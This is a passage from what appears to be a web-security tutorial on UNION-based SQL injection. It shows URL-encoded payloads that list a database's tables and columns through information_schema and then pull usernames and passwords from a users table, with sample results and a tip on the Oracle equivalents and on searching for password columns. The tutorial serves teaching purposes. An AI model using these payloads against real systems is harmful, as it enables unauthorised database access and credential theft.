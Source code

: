 ```
Name=Matthew'%20union%20select%20table_name,column_name,null,null,null%20from%20information_schema.columns--
```


| NAME            | E-MAIL               |
| --------------- | -------------------- |
| Matthew Adamson | handytrick@gmail.com |
| shop_items      | price                |
| shop_items      | prodid               |
| shop_items      | prodname             |
| addr_book       | contactemail         |
| addr_book       | contactname          |
| users           | username             |
| users           | password             |


Here, the users table is an obvious place to begin extracting data. We could extract data from the users table using this query:

```
Name=Matthew'%20UNION%20select%20username,password,null,null,null%20from%20users--
```

| NAME            | E-MAIL               |
| --------------- | -------------------- |
| Matthew Adamson | handytrick@gmail.com |
| administrator   | fme69                |
| dev             | uber                 |
| marcus          | 8pinto               |
| smith           | twosixty             |
| jlo             | 6kdown               |

**TIP: The `information_schema` is supported by MS-SQL, My-SQL, and many otehr databases, including SQLite and Postgresql. It is designed to hold database metadata, making it a primary target for attackers wanting to examine the database. Note that Oracle doesn't support this schema. When targeting an Oracle database, the attack would be identical in every other way. However, you would use the query `SELECT table_name, column_name FROM all_tab_columns` to retrieve information about tables and columns in database. (You would use the `user_tab_columns` table to focus on the current database only.) When analyzing large databases for points of attack, it is usually best to look directly for interesting column names rather than tables. For instance:

```
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```
